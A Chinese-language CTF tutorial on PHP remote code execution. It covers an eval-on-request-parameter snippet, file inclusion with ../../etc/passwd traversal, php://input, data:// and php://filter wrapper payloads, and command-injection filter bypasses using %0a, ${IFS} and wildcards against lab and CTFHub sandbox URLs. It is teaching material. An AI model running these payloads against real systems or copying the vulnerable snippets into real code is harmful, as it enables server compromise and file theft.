# 1.8-RCE(Remote Code/command Execute)

## 1.1-远程（代码/命令）执行简介

- 远程代码执行对于渗透人员来讲就是利用各种办法执行发现的能够执行自定义代码或者命令的漏洞
- 接下来我们使用ctfhub平台中的思维导图来讲解这个漏洞
- 网站：https://www.ctfhub.com/#/skilltree
- 

## 2.1-远程代码执行

- 远程代码执行一般存在于web网站中有交互式的地方，其中的变量是我们可控的

- 这里以这段php代码为列：

- ```php
   <?php
  if (isset($_REQUEST['cmd'])) {
      eval($_REQUEST["cmd"]);
  } else {
      highlight_file(__FILE__);
  }
  ?> 
  ```

  - 如果GET或者POST请求当中存在变量cmd的值

  - 则将cmd变量的值当做一段PHP代码执行

  - 否则高亮回显代码

- 如果这一段代码搬运到某个网页上，那么久可以造成代码执行的漏洞了，由于我们可以控制代码的内容，因此漏洞危险系数很高，可以说攻击者几乎是拿到了这台服务器
- 如果我们在链接处构造cmd=phpinfo();
- 

- 可以发现回显了当前的php基本信息，如果构造一个system('ls');
- 
- 可以看到成功执行系统命令，以上就是一个简易的代码执行漏洞了

## 2.2-文件包含

- 文件包含简介：服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码，并且当PHP来执行，这会为开发者节省大量的时间。这意味着您可以创建供所有网页引用的标准页眉或菜单文件。当页眉需要更新时，您只更新一个包含文件就可以了，或者当您向网站添加一张新页面时，仅仅需要修改一下菜单文件（而不是更新所有网页中的链接）

- 文件包含函数

- PHP中文件包含函数有以下四种：

  > require() 
  >
  > require_once()
  >
  > include()
  >
  > include_once()

- 其中require执行中遇到警告直接退出，而include遇到警告继续执行，两者的one都是表示执行一次的意思

- 漏洞产生的原因

  - 由于开发者没有控制或者过滤变量，导致攻击者包含任意文件

  - ```php
    <?php
        $filename  = $_GET['filename'];
        include($filename);
    ?>
    ```

  这里的filename就是我们的可控变量，如果输入例如/etc/passwd 会看到返回结果

- **包含分为本地包含和远程包含**

  - 本地包含：只能包含系统中存在的文件
  - 远程包含：在本地包含基础上包含能够访问的远程文件

- 本地包含

  - 

  - 查看任意文件找到变量，然后修改变量构造payload

  - 

  - 直接包含绝对路径没有任何返回，尝试包含相对路径

  - 

  - ```
    ../../../../../../../etc/passwd
    ```

  - 成功返回passwd文件内容

- 远程包含

  - ```
    kali ip:192.168.2.161/24
    server ip:192.168.2.195/24
    ```

  - 直接在包含位置输入可访问的目标即可，可以是伪协议也可以是http只要能够访问到就行
  - 


## 2.2.1-伪协议

- 从上面的远程包含可以看到，只要有数据到达目标服务器上就可以执行代码，因此我们也可以使用伪协议上传数据

- ## `php://` 协议

  - **条件**：
    - `allow_url_fopen`:off/on
    - `allow_url_include` :仅`php://input php://stdin php://memory php://temp `需要on
  - **作用**：
    `php://` 访问各个输入/输出流（I/O streams），在CTF中经常使用的是`php://filter`和`php://input`，`php://filter`用于**读取源码**，`php://input`用于**执行php代码**。

- php://input : 可以访问请求的原始数据的只读流，在POST请求中访问POST的`data`部分，在`enctype="multipart/form-data"` 的时候`php://input `是无效的。

- 请求页面构造如下图

- 

- bp拦截输入请求数据

- 

- ## `data://` 协议

  - **条件**：

    - `allow_url_fopen`:on
    - `allow_url_include` :on

  - **作用**：自`PHP>=5.2.0`起，可以使用`data://`数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。

  - **用法**：

    ```awk
    data://text/plain,
    data://text/plain;base64,
    ```

  - 

  - 如果有过滤还可以使用base64

  - ```
    http://192.168.2.195/pikachu-master/pikachu-master/vul/fileinclude/fi_remote.php?filename=data://text/plain;base64,%50%44%39%77%61%48%41%67%63%47%68%77%61%57%35%6d%62%79%67%70%4f%7a%38%2b&submit=Submit+Query
    ```

    - 这里需要注意编码，先将php代码用base64编码一下然后再用url编码编码一下，不然可能会报错，比如+号直接写在url上可能不会自动编码

  - 

## 2.3-读取源码

- 这里还是用到伪协议，因为比较重要所以单独列出来

- php://filter/:该协议的参数会在该协议路径上进行传递，多个参数都可以在一个路径上传递

- 一般使用方法

  - php:/filter/read=convert.base64-encode/resource=target file

- 一般情况下我们包含了php文件会直接执行，不会显示出源码，因此当我们需要读取源码的时候可以用到fileter协议

- 这里我们读取一些fileinclude.php的源码

- pyaload:

- ```
  http://192.168.2.195/pikachu-master/pikachu-master/vul/fileinclude/fi_remote.php?filename=php://filter/read=convert.base64-encode/resource=fileinclude.php&submit=Submit+Query
  ```

  

- 

## 2.4-命令注入

- Command Injection，即命令注入攻击，是指黑客通过把HTML代码输入一个输入机制(例如缺乏有效验证限制的表格域)来改变网页动态生成的内容的一种攻击手段
- php常见危险函数：
  - system
  - exec
  - passthru
  - shell_exec
  - popen
  - proc_open
- python常见危险函数：
  - system
  - popen
  - subprocess.call
  - spawn
- 常见注入方式
  - 分号分割
  - `||` `&&` `&` 分割
  - `|` 管道符
  - `\r\n` `%d0%a0` 换行
  - 反引号解析
  - `$()` 替换
- 
- 代码审计：
  - 如果存在ip参数则执行ping命令拼接我们的ip参数并且执行
  - 如果不存在则什么都不会发生
- 利用命令执行的特点，可以在ip地址之后加上一个分号，让其达到命令执行的目的
- 我们都知道如果想要利用一行命令执行两条代码的效果可以加上一个分号表示命令分割
- 

- 那么在这里同理我们构造完ip地址后加上一个分号加上想执行的命令就可以了

## 2.5-过滤cat

- 通常我们在命令注入的时候会发现过滤了一些命令，如果发生这种情况我们可以使用类似cat的命令替代cat命令，例如less,more这种类型的命令，同样是查看文件的命令，但是和cat毫无关系
- 
- 上图代码就是过滤cat命令，如果我们输入cat命令道get参数，那么ip变量的参数不会传递到cmd中执行，结果会返回一个空结果
- 
- 如上图可以看到我们的payload里面构造了一个cat命令的参数，但是返回的结果为空，我们构造一个ls命令，返回了当前界面的结果
- 

- 
- 这里我们构造了一个less命令可以发现出现了flag

## 2.6-空格绕过

- $IFS 是一种 set 变量，当 shell 处理"命令替换"和"参数替换"时，shell 根据 IFS 的值，默认是 space,tab, newline 即空格，制表符，空行来拆解读入的变量，然后对特殊字符进行处理，最后重新组合赋值给该变量。
  直接用$IFS的话，会认为解析没结束，会把后面的也当做参数解析，比如cat$IFSflag.php，会把IFSflag一起当变量解析。这时候需要在$IFS后面进行截断，使解析为空，结束 $IFS，正常执行后面的内容。

- 在PHP下，空格可以使用%09(tab)、%0a(换行)替代

- 

- 分析源代码，可以很快看出来，这里过滤了空格，由我们的前置知识可以构造payload

- ```
  http://challenge-7399588e935570d8.sandbox.ctfhub.com:10800/?ip=1%3Bcat%09flag_681087259071.php#
  
  http://challenge-7399588e935570d8.sandbox.ctfhub.com:10800/?ip=1%3Bcat${IFS}flag_681087259071.php#
  ```

- 

## 2.7-过滤目录分隔符

- 

- 分析源码，可以发现过滤了目录分隔符，但是我们可以利用cd命令先进入目录，然后查看目录文件即可，这里只需要多构造几条命令即可

- payload:

- ```
  http://challenge-0683b8a7df6d19a0.sandbox.ctfhub.com:10800/?ip=1%3Bcd+flag_is_here%3Bcat%20flag_8875176030701.php#
  ```

- 

- 通过多个命令构造可以很快得到flag

## 2.8-过滤运算符

- 
- 这里没有过滤空格，以及敏感命令，因此可以直接使用上面几题的payload
- 

## 2.9-综合过滤

- 

- 代码审计

  - 判断变量IP是否存在，如果存在则将get的ip变量赋值给ip

  - 如果匹配到ip变量内存在以下符号则返回空，否则继续执行

  - ```
    (\||&|;| |\/|cat|flag|ctfhub)
    ```

- 这里我们需要用到前面几节内容的知识点相互结合就可以绕过了

- %0a表示的是换行符，而linux当中换行表示执行另外一条命令，因此这里过滤；可以用%0a代替

- 

- 第一步过滤成功，接下来我们绕过第二步

- 第二步绕过flag，由于上面过滤flag这个关键字符，这里我们可以使用通配符，由于没有过滤运算符中的乘法，因此我们可以使用*匹配flag

- 

- 第三步读取flag文件

- 构造payload

- ```
  http://challenge-9265fe3a942559ec.sandbox.ctfhub.com:10800/?ip=1%0Acd${IFS}fla*%0amore${IFS}fla*.php#
  ```

  - payload详解
    - %0a --> ；
    - %{IFS} --> " "(空格)
    - *--> 通配符，因为flag被过滤了，所以使用※代替
    - more --> cat
  - 
  - 至此，命令执行到此结束

